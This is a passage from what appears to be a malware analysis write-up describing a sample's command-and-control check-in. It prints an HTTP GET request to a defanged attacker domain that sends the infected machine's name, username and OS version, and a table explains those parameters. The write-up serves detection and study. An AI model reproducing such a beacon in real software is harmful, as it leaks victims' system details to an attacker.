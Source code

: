 ![c2-overview](/images/5.png)
*Figure 6: High Level C2 Behavior Overview*

Now that we understand the high level concepts, let's discuss the details and see what the C2 traffic looks like.

Once persistence has been established, it will communicate to the C2 server using the string we identified earlier as the URI parameters.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/userlog.php?id=MALWARE-PC&&user=yourmom&&OsI=Windows7Ultimate HTTP/1.1
Host:subscribe[.]tomcruefrshsv[.]com
Connection: close
```

The C2 checkin URI parameters are as follows.

| URI Parameter | Description  |
| ------------- | ------------ |
| id            | ComputerName |
| user          | Username     |
| OsI           | ProductName  |
